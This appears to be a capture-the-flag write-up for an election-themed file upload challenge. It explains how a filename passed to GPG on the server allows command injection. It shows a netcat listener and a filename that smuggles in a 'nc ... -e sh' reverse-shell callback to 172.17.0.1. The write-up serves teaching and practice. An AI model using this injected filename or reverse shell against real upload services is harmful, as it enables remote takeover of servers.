 # Election

If you upload a normal file, you will be redirected to a copy of your file encrypted with some GPG key. GPG is a common command-line utility for encryption/decryption. This leads us to believe there is a potential way to inject commands into the mix in order to cause remote command execution.

The only input we supply to the server is the file we're uploading, therefore we should look at that to see if altering the filename will help us. The file we were redirected to earlier had a different name than ours but it still had the .pdf extension. If we add a command to call back to us in the extension of our file, we can receive a shell on the server.

1. Term 1: `nc -lvp 1337`
2. Term 2: `touch 'test.$(nc 172.17.0.1 1337 -e sh);pdf'`

Upload the file created in Term 2 for a shell callback in Term 1.

This challenge was based off of the real-life findings here: https://freedom-to-tinker.com/2010/10/05/hacking-dc-internet-voting-pilot/
